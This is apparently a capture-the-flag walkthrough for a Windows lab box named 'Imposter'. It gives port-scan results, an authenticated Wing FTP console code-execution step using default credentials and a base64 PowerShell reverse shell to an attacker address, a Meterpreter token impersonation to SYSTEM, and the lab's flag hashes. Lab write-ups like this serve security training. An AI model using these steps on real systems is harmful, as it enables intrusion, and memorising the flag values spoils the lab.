



# Imposter

**IP Address:** 172.31.1.20

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 1025/tcp | open | msrpc | Microsoft Windows RPC  |
| 1026/tcp | open | msrpc | Microsoft Windows RPC  |
| 1027/tcp | open | msrpc | Microsoft Windows RPC  |
| 1028/tcp | open | msrpc | Microsoft Windows RPC  |
| 1029/tcp | open | msrpc | Microsoft Windows RPC  |
| 1036/tcp | open | msrpc | Microsoft Windows RPC  |
| 1037/tcp | open | msrpc | Microsoft Windows RPC  |
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 445/tcp | open | microsoft-ds | Microsoft Windows Server 2008 R2 - 2012 microsoft-ds  |
| 47001/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 5985/tcp | open | http | Microsoft HTTPAPI httpd 2.0 |
| 8080/tcp | open | http-proxy | Wing FTP Server(UNREGISTERED)  |
| 123/udp | open|filtered | ntp |   |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 138/udp | open|filtered | netbios-dgm |   |
| 1434/udp | open|filtered | ms-sql-m |   |
| 162/udp | open|filtered | snmptrap |   |
| 445/udp | open|filtered | microsoft-ds |   |
| 4500/udp | open|filtered | nat-t-ike |   |
| 49152/udp | open|filtered | unknown |   |
| 500/udp | open|filtered | isakmp |   |
| 514/udp | open|filtered | syslog |   |
| 520/udp | open|filtered | route |   |
| 631/udp | open|filtered | ipp |   |

## Exploitation
### Exploit Details (SearchSploit)
* **Name** - Wing FTP Server 6.3.8 - Remote Code Execution (Authenticated) 
* **CVE** - N/A
* **Module** - lua/webapps/48676.txt
* **Disclosed** - 2020-07-16
* **References**
  * https://www.exploit-db.com/exploits/48676

1. Generate a PowerShell reverse shell payload that is base64 encoded. 

Commands
```
python mkpsrevshell.py 10.10.0.15 443
```


2. Log into the admin portal of Wing FTP (admin / password) and navigate to Administration > Console. Type in the command below and intercept the request with burp suite. 

Commands
```
os.execute('whoami')
```





3. Replace the payload with the base64 encoded reverse shell and send. 



4. Cat the reverse shell and read the access.txt file. 
Commands
```
whoami
type C:\Users\lian\Desktop\access.txt
```


## Privilege Escalation
### Exploit Details (SeImpersonate Privilege)
* **Name** - SeImpersonate Privilege
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A


Commands
```bash
run
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
whoami
type C:\Users\Administrator\Desktop\system.txt
```


## Loot
```
access.txt
cad14501e31203841c87fe62f4033605
system.txt
0fae2c56cb5999b9ca977984e7e4646c
```